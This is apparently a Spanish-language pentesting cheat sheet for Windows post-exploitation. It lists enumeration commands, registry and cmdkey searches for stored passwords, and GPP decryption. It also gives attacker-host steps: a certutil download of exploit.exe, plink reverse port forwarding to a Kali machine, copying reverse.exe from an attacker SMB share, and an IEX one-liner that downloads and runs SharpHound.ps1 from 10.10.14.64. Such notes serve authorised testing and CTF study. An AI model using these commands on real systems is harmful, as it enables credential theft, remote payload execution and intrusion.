 #windows 
### Enumeración del sistema

```python
	systeminfo
	
	systeminfo | findstr /B /C: "OS Name" /C: "OS Version" /C: "System Type"
	
	wmic qfe get Caption, Description, HotFixID, InstalledOn #Muestra actualizaciones del sistema
	
	wmic logicaldisk get caption, description, providername #Muestra discos
```
### Enumeración de usuarios

```python
whoami

whoami /priv

whoami /groups

net user

net user <USUARIO>

net localgroup

net localgroup <GRUPO>
```
### Enumeración de red

```python
ip a

ifconfig

route

ip route

aipconfig

ipconfig /all #Información extendida

arp -a

route print

netstat -ano
```

### smbclient 

```python
	smbclient \\\\spookysec.local\\backup --user user --password pass
```
### Búsqueda de archivos

```python
#CMD

where /r c:\ file.txt

#Powershell

Get-ChildItem -Path C:\Myfolder -Filter file.txt -Recurs

cmd.exe /c dir /s /b C:\user.txt
```
### Búsqueda de credenciales

```python
#Valores en el registro que contengan la string “password”

reg query HKLM /f password /t REG_SZ /s

#Listar autologon passwords

reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

#Lista contraseñas guardadas

cmdkey /list
```
### Enumeración de antivirus

```python
sc query windefend

sc queryex type= service #Lista servicios activos

netsh advfirewall firewall dump
```
### Enumeración con herramientas automáticas

```python
	[Release Release refs/heads/master 20230108 · carlospolop/PEASS-ng (github.com)](https://github.com/carlospolop/PEASS-ng/releases/tag/20230108)
	
	[bitsadmin/wesng: Windows Exploit Suggester - Next Generation (github.com)](https://github.com/bitsadmin/wesng)

````
## Funciones básicas

### Descarga de archivos[](#descarga-de-archivos)

```python
certutil.exe -urlcache -f 10.10.14.4 exploit.exe
```
### Comprobación de permisos sobre un archivo

```python
accesschk.exe /accepteula -quvw <user> <Ruta absoluta del archivo>
```
### Ejecución de un programa como otro usuario en Powershell

```python
powershell -c "$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('<USER>', $password);Start-Process -FilePath "<PROGRAM.EXE>" -Credential $creds"
```
### Windows Port Forwarding

```python
plink.exe -l <KALI_USER> -pw <KALI_USER_PASS> -R <KALI_PORT>:<LOCAL_IP/LOCALHOST_IP>:<LOCAL_PORT> <KALI_IP>
```
### Transferencia de archivos mediante smb

```python
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . #Kali

copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe #Windows
```
### Desencriptado GPP

```python
gpp-decrypt "<hash>"
```

### Web Client

```python
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.64/SharpHound.ps1')
```
